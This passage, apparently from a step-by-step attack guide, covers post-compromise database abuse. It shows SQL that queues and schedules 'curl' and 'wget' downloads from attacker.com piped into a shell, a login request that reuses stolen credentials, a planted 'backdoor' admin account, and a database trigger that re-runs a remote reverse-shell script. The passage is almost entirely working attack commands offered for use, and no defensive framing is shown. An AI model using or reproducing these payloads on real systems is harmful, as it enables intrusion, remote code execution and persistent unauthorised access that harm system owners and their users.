 &nbsp;	INSERT INTO job\_queue (task) VALUES ('curl http://attacker.com/malware.sh | bash');

Reuse Creds in Internal Admin Panel (if auth table leaked)

&nbsp;	POST /admin/login

&nbsp;	username=haxor\&password=stolenpass



**Step 9: Persistence**

Add a New Web Admin

&nbsp;	INSERT INTO users (username, password, role) VALUES ('backdoor', 'pass123', 'admin');

Inject into Cron Job Table

&nbsp;	INSERT INTO cron\_jobs (command, schedule) VALUES ('wget http://attacker.com/rev.sh | bash', '\* \* \* \* \*');

Create a DB Trigger for Auto-Reexecution

&nbsp;	CREATE TRIGGER persist AFTER INSERT ON users

&nbsp;	FOR EACH ROW BEGIN

    		CALL system('curl http://attacker.com/revive.sh | sh');

&nbsp;	END;



